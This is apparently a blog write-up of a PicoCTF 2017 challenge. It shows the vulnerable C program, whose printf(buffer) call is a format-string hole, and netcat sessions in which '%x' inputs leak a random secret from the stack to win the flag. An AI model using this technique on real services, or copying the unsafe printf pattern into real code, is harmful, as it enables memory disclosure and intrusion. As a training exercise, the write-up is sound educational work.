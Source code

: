 ```yaml
---
layout:     post
title:      "PicoCTF - I've Got A Secret"
subtitle:   "Write-Ups"
date:       2017-04-17 0:00:00
author:     "W3ndige"
header-img: "img/picoctf-header.jpg"
permalink: /:title/
category: PicoCTF 2017
---
```

<h1>I've got a secret - 75 PTS</h1>

<p>Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:10750.</p>

{% highlight c %}
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}
{% endhighlight %}

<p>We also have a small hint, telling us that it is vulnerable to format string exploit. From OWASP we can learn that. </p>

<p><i>The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.</i></p>

<p>Now let's try connecting, and providing the program with some random input. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
hello
hello
Now tell my secret in hex! Secret: hello
As my friend says,"You get nothing! You lose! Good day, Sir!"

{% endhighlight %}

<p>Exactly nothing happens. But we also now that our target is some value in hex format. Let's try to use format string exploit to get these numbers from a memory. It's possible by typing a few <b>%x</b>  parameters. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 37bcd63a
Now tell my secret in hex! Secret: f7fc7c20
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d2ad438b
Now tell my secret in hex! Secret: 8048792
As my friend says,"You get nothing! You lose! Good day, Sir!"
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 ffa0c668
Now tell my secret in hex! Secret: ffffdd34
As my friend says,"You get nothing! You lose! Good day, Sir!"
{% endhighlight %}

<p>See how the last value changes each time we run a program. Since we now that secret is generated using <b>urandom</b>, we can guess that that's it. Let's run one last time. </p>

{% highlight bash %}
w3ndige@W3ndige ~> nc shell2017.picoctf.com 10750
Give me something to say!
%x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 26ef02ad
Now tell my secret in hex! Secret: 26ef02ad
1ba85d212f80746e0c61b8d45bc690b6
Wow, you got it!
{% endhighlight %}

<p>Another one! </p>
